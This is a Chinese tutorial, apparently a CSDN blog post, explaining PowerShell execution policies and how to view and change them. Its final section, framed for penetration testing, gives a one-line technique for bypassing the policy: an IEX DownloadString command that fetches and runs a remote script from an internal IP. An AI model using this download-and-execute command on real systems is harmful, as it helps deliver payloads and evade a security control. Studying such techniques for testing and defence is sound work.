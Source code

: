 

### PowerShell的执行策略



为防止恶意脚本的执行，PowerShell有一个执行策略，默认情况下，这个执行策略被设置为受限。



我们可以使用：Get-ExecutionPolicy  命令查看PowerShell当前的执行策略。它有4个策略。



*   Restricted：脚本不能运行(默认设置)

*   RemoteSigned：本地创建的脚本可以运行，但是从网上下载的脚本不能运行(拥有数字证书签名的除外)

*   AllSigned：仅当脚本由受信任的发布者签名时才能运行

*   Unrestricted：允许所有的脚本执行



可以看到，我们PowerShell脚本当前的执行策略是 AllSigned。



![](https://img-blog.csdnimg.cn/20191201145322563.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**修改PowerShell执行策略：**



```
Set-ExecutionPolicy 策略名       #该命令需要管理员权限运行
```




![](https://img-blog.csdnimg.cn/20191112082315427.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 绕过执行策略执行PowerShell脚本



在[渗透测试](https://so.csdn.net/so/search?q=%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95&spm=1001.2101.3001.7020)时，需要采用一些方法绕过策略来执行PowerShell脚本：



**下载远程PowerShell脚本绕过权限执行**



经过测试，在cmd窗口执行远程下载的powershell脚本，不论当前策略，都可以直接运行。而powershell窗口不行。



```
#cmd窗口执行以下命令      
powershell -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')      
在powershell窗口执行      
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
```
